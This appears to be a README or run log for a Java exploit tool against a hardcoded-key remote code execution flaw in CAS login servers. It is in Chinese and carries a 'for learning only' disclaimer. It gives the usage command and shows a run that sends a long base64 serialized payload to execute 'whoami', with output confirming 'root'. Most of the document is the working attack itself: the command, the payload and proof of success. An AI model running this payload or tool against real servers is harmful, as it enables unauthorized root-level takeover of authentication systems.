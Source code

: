 
CAS 硬编码 远程代码执行漏洞

使用方式

java -jar cas-0.0.1-all.jar  http://localhost:8080/cas-server/login

-----------------------cas检测工具---------------------------------
-----------本软件仅供学习交流,如作他用所承受的法律责任一概与作者无关---------
**             **
* *               * *
*  *     *  *
*   *   *   *
*        * *    *
*  *  *  *  *
*               *
*           *
*           *
---------use: jar -jar cas-0.0.1-all.jar http://xxxx.xxxx-------

-------------------create by maobugs----------------------------

执行命令whoami...
payload is: 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
BcnkUX4PLBLWolJgD30=

执行结果是：root



